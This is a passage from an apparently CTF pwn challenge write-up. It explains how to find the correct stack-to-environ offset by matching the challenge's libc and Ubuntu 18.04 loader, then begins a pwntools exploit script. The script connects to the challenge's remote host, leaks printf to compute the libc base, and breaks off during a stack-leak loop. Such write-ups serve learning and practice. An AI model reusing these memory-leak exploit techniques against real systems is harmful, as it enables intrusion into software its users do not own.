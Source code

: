 ```
```

Easy, right?  Well, this will not work remotely.  This works for Ubuntu 20.04, the version of Ubuntu I have in the Docker container I used for CTFs.

To get the correct delta, you need to use the included `libc` with a matching `ld.so`:

```bash
# LD_LIBARAY_PATH=./ ./ld.so ./environment_noalarm
```

Now we get the correct delta, right?

```
gef➤  p/x (long)(environ)-(long)$rsp
$1 = 0x128
```

Wrong again.  It's off by 8.  And I'm not 100% sure why, and didn't have time to figure it out.  I guessed +/-8 with remote testing and -8 did it.

If you _strings_ the binary:

```
# strings environment | grep -i ubuntu
GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
```

You get a hint that they are using Ubuntu 18.04.  The included libc is also from that distro.  Starting up an Ubuntu 18.04 CTF container, gets the correct delta:

```
gef➤  p/x (long)(environ)-(long)$rsp
$1 = 0x120
```


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./environment_noalarm')

if args.REMOTE:
    p = remote('138.68.141.182',31076)
    libc = ELF('./libc.so.6')
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# libc leak
for i in range(5):
    p.sendlineafter('> ','2')
    p.sendlineafter('> ','2')
    p.sendlineafter('> ','n')

p.recvuntil('gift:')
p.recvuntil('[')
p.recvuntil('[')
printf = int(p.recvline().strip(b']\n').decode(),16)
log.info('printf: ' + hex(printf))
libc.address = printf - libc.sym.printf
log.info('libc.address: ' + hex(libc.address))

# stack leak
for i in range(5):
```